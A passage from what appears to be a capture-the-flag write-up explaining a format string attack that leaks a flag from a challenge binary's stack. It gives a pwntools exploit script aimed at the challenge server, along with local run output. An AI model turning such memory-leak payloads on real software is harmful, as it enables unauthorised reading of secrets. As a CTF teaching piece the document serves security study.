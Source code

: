 From here, accessing is simple. We need only to use the `%s` specifier to make the program use the value of the adress in the stack as a pointer to the flag :

```py
...
p.sendline(addressBytesInStack + b' %p %p %p %p %p %p %s')
...
```

One last thing, we need to make sure that our address is stored in one address instead of two. Let me explain :


```
➜   ./chall
This may help later : 0x575671a0
Name : AABBBB - %p - %p - %p - %p - %p - %p - %p
Hi, AABBBB - 0x32 - 0xf7e1d620 - 0x565e7259 - (nil) - (nil) - 0x41410000 - 0x42424242
```

As we can see here, the string we add to the program will actually be splitted in two, this way, it will be hard for us recover the flag. Instead, we will make sure to store it in one address by filling the first part with placeholder :

```py
...
p.sendline(b'AA' + addressBytesInStack + b' %p %p %p %p %p %p %s ')
...
```

Finally, let's execute the program locally :

```
[+] Starting local process './chall': pid 73843
[*] Switching to interactive mode
[*] Process './chall' stopped with exit code 0 (pid 73843)
Hi, AA\xa0\xf1X 0x32 0xf7e1d620 0x56564259 (nil) (nil) 0x41410000 shellmates{XXXXXXXXXXXXXXXXXXXXX} 
[*] Got EOF while reading in interactive
```

Now using the following program to execute it on the remote :

```py
#! /usr/bin/python3

from pwn import *

HOST = 'pwn.challs.ctf.shellmates.club'
PORT = '140'

p = remote(HOST, PORT)

address = p.recv().split()[5]
addressBytesInStack = p32(int(str(address)[2:-1], 16))


p.sendline(b'AA' + addressBytesInStack + b' %p %p %p %p %p %p %s ')

p.interactive()

```

